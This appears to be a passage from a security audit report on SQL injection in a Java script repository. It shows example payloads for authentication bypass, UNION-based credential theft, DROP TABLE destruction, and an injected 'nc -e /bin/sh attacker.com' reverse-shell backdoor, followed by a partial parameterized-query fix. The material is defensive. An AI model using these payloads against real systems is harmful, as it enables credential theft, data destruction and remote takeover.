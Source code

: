 **Scenario 1: Authentication Bypass**
```java
// Attacker provides script name:
String maliciousName = "test' OR '1'='1' --";

// Results in query:
SELECT * FROM python3_scripts WHERE name = 'test' OR '1'='1' --'

// Returns ALL scripts, bypassing ownership checks
```

**Scenario 2: Data Exfiltration**
```java
// UNION-based injection
String maliciousName = "test' UNION SELECT username, password, email, '', '', '', '', '' FROM gateway_users --";

// Exfiltrates all user accounts
```

**Scenario 3: Database Destruction**
```java
// Stacked queries (if supported by driver)
String maliciousName = "test'; DROP TABLE python3_scripts; --";

// Destroys all saved scripts
```

**Scenario 4: Backdoor Injection**
```java
// Modify existing scripts
String maliciousFolder = "'; UPDATE python3_scripts SET code = 'import os; os.system(\"nc -e /bin/sh attacker.com 4444\")' WHERE name = 'admin_script'; --";

// Injects backdoor into admin script
```

**Impact:**
- Unauthorized access to all scripts
- Data exfiltration (scripts, user data)
- Database corruption/destruction
- Backdoor injection into scripts
- Privilege escalation
- Bypass of access controls

**Recommended Fix (Priority 1):**

```java
// Python3ScriptRepository.java - SECURE VERSION

public class Python3ScriptRepository {
    private final PersistenceInterface database;
    private static final Logger LOGGER = LoggerFactory.getLogger(Python3ScriptRepository.class);

    /**
     * Load a script by name - SECURE VERSION
     */
    public SavedScript loadScript(String name) throws Exception {
        // Validate input
        validateScriptName(name);

        // Use parameterized query
        String query = "SELECT id, name, code, description, author, created_date, last_modified, folder_path, version " +
                       "FROM python3_scripts WHERE name = ?";

        try (PreparedStatement stmt = database.getConnection().prepareStatement(query)) {
            stmt.setString(1, name);  // ✅ Safe parameterization
```